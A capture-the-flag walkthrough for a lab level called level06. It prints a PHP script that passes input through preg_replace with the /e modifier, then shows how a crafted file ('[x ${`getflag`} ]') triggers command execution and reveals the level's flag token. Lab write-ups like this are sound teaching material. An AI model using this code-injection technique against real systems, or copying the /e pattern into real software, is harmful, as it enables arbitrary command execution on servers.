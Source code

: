 
# Resources for level06

## Walkthrough to capture the flag:

### Step 1: Inspect the PHP script
```bash
cat level06.php
```
> Output:
```php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) {
  $a = file_get_contents($y);
  $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
  $a = preg_replace("/\[/", "(", $a);
  $a = preg_replace("/\]/", ")", $a);
  return $a;
}
$r = x($argv[1], $argv[2]); print $r;
?>
```
> This PHP script evaluates specially crafted input files using a vulnerable `preg_replace` with the `/e` modifier (which executes code).

---

### Step 2: Create a malicious input file
```bash
echo '[x ${`getflag`} ]' > /tmp/getflag
```
> This input will trigger code execution. `${\`getflag\`}` is evaluated in the shell, and the flag will be printed.

---

### Step 3: Verify the file content
```bash
cat /tmp/getflag
```
> Confirm the file has the correct malicious payload.

---

### Step 4: Execute the vulnerable PHP script
```bash
./level06 /tmp/getflag
```
> The script reads `/tmp/getflag`, evaluates its content, and executes `getflag`.

---

### Final Flag
```
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```
